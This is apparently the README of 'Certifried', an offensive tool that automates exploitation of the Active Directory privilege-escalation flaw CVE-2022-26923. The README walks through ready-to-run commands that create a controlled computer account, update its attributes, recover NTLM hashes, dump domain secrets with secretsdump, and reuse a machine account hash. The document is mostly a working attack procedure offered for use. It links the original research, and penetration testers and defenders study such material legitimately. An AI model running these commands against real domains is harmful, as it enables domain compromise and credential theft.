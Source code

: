 # Certifried 

## Why Certifried?
Certifried makes steps easier to replicate to abuse the new CVE-2022-26923. However below is the manual steps to replicate the vulnerability. Detailed article can be read [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) from the original author.

## Usage
* Just add computer and update neccessary attributes
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10
```
Next step is to request certificate manually, you can refer [here](https://github.com/aniqfakhrul/archives#certifried)
* Recover NTLM hash
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap
```
* Proceed with secretsdump
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump
```
_Note: If you received an error of Name Service not found, you might wanna add target ip to /etc/hosts_

### In case where you obtain a machine account hash
_CAVEAT: that this will modify the `servicePrincipalName` and `dnsHostName` attribute of the current computer account_
```
python3 modify_computer.py range.net/ws01\$@192.168.86.182 -hashes :0e3ae07798e1bc9e02b049a795a7e69f
```

## Credits 
* https://github.com/dirkjanm/PKINITtools
* https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
* https://github.com/eloypgz/certi
* https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
